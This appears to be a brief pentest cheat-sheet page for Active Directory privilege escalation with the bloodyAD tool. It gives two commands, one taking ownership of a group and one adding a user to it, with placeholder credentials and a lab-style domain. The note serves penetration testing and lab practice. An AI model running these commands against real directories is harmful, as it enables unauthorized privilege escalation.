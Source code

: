 +++
title = "Pentest - Active Directory - BloodyAD"
author = ["svejk"]
tags = ["privEsc", "pentest", "activeDirectory"]
draft = false
+++

## BloodyAD {#bloodyad}

Privilege Escalation

```shell { linenos=true, linenostart=1 }
bloodyAD --host "$IP" -d "domain.htb" -u "<user>" -p "<password>" set owner <group> <user>
bloodyAD --host "$IP" -d "domain.htb" -u "<user>" -p "<password>" add groupMember <group> <user>
```

[CravateRouge](https://github.com/CravateRouge/bloodyAD)
